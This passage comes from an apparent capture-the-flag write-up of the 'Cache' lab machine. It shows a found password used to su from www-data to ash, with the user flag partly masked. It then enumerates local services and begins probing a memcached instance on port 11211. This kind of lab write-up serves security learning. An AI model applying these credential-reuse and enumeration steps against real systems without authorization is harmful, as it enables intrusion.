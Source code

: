 
## Priv: www-data –> ash

With the creds I found earlier for the webpage (H@v3_fun), I can `su` to ash:

    
    
    www-data@cache:/var/www/hms.htb/public_html/interface/main$ su - ash
    Password: 
    ash@cache:~$
    

And get `user.txt`:

    
    
    ash@cache:~$ cat user.txt
    dba76925************************
    

## Priv: ash –> luffy

### Enumeration

In looking around, I noticed something listening on port 11211:

    
    
    ash@cache:~$ netstat -tnlp
    (Not all processes could be identified, non-owned process info
     will not be shown, you would have to be root to see it all.)                                            
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
    tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
    tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN      -                   
    tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
    tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
    tcp6       0      0 :::80                   :::*                    LISTEN      -                   
    tcp6       0      0 :::22                   :::*                    LISTEN      -    
    

11211 is the default port for [memchaced](https://memcached.org/), and
checking the process list confirms this:

    
    
    ash@cache:~$ ps auxww | grep 11211
    memcache   936  0.0  0.1 425792  4088 ?        Ssl  May11   0:00 /usr/bin/memcached -m 64 -p 11211 -u memcache -l 127.0.0.1 -P /var/run/memcached/memcached.pid
    ash       3308  0.0  0.0  13136  1108 pts/2    R+   00:27   0:00 grep --color=auto 11211
    

### memcached

Hacking Articles has a [decent post about Pentesting
Memcached](https://www.hackingarticles.in/penetration-testing-on-memcached-
server/). I’ll walk the same steps they show, which are the same steps I used
in [Dab](/2019/02/02/htb-dab.html#memcached---tcp-11211). I can connect with
`telnet`, and start by getting the version:
